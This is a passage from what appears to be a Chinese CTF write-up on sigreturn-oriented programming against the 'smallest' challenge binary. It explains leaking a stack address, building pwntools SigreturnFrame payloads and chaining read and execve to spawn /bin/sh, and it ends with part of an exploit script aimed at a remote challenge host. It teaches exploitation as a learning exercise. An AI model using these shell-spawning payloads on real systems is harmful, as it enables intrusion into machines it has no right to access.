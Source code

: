![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/SROP/s7.png?x-oss-process=style/watermark)

当转到第2个start_addr\b3执行，write函数会从rsp位置开始读取长度为0x400的数据。因此我们可以知道栈地址是多少，由于此时rsp指向第3个stack_addr，此时我们可以利用的栈首地址为8字节之后，即stack_addr = u64(sh.recv()[8:16])。

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/SROP/s8.png?x-oss-process=style/watermark)

## 2.3 构造sigreturn

write执行完以后，会返回到第3个start_addr地址执行，也就是再次调用syscall(read)，此时将我们的payload发出，就会被写入栈了，然后就可以构造sigreturn了。

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/SROP/s9.png?x-oss-process=style/watermark)

```python
payload = p64(start_addr) + p64(syscall_ret) + str(read)
payload[8:8+15]= syscall_ret + ****(add to 15)#第2段payload不会改变原来的payload
```

为了使程序接着执行，我们将paylade的前8个字节构造为start_addr。即payload发送以后，会再次执行start_addr，也就是syscall(read)，此时我们输入15个字符使其rdx=15，为调用sigreturn做准备。然后会转到syscall_ret执行，也就是0x4000BE，此时rdx为15，执行syscall就是执行sigreturn。

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/SROP/s7.png?x-oss-process=style/watermark)

sigreturn会触发中断，将我们构造好的read函数参数（栈中的）给放到寄存器上（会清除栈里面的read_frame），然后执行read函数，等待接收。

## 2.4 构造 execve

此时，再次输入payload，将payload写入栈。由于我们设置esp（返回地址）是syscall_ret，中断执行完后会调用syscall 15，即read函数，而设置的read函数参数为stack_addr，即会将接收到的数据写入stack_addr的地址，之前的栈空间会被覆盖。

同样，为了使得程序继续执行，我们将第一个地址构造成start_addr，为了执行execve，我们需要再次触发中断，第2个地址同样构造为syscall_ret。

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/SROP/s10.png?x-oss-process=style/watermark)

```python
payload=p64(start_addr)+p64(syscall_ret)+str(execve)
payload=payload+(0x120-len(payload ))*'\x00'+'/bin/sh\x00'(补到120字符，并加上/bin/sh)
payload[8:8+15]= syscall_ret + ****(add to 15)#第2段payload不会改变原来的payload
```

当再次触发中断时，会将execve函数参数放到寄存器中，由于我们将esp即中断的返回地址设为syscall_ret，所以当它返回时，就会调用execve（syscall 59），而execve参数的位置为stack_addr+120。因此当execve执行时，会调用/bin/sh（rdi=stack_addr+20的位置），执行shell。

完整exp：

```python
#coding=utf8
from pwn import *
sh = remote("node4.buuoj.cn",27207)
small = ELF('./smallest')
syscall_ret = 0x004000BE
start_addr = 0x004000B0
payload = p64(start_addr) * 3
sh.send(payload)#首先,发送start_addr的地址,因为是写在栈顶的,所以就是read的返回地址，会返回到start_addr
sh.send('\xb3')
#返回后再次调用read函数的时候输入一个字节,read函数会把读入的字节数放到rax，达到了rax置为1
#同时会把rsp的后一位写为\xB3,这样返回地址就不是start_addr了，而是4000B3,这就避免了rax被xor置零
stack_addr = u64(sh.recv()[8:16])
log.success('leak stack addr :' + hex(stack_addr))#现拿到栈的地址
read = SigreturnFrame()
read.rax = constants.SYS_read
read.rdi = 0
read.rsi = stack_addr
read.rdx = 0x400
read.rsp = stack_addr
read.rip = syscall_ret #相当于read(0,stack_addr,0x400),同时返回地址是start_addr
read_frame_payload  = p64(start_addr) + p64(syscall_ret) + str(read)
```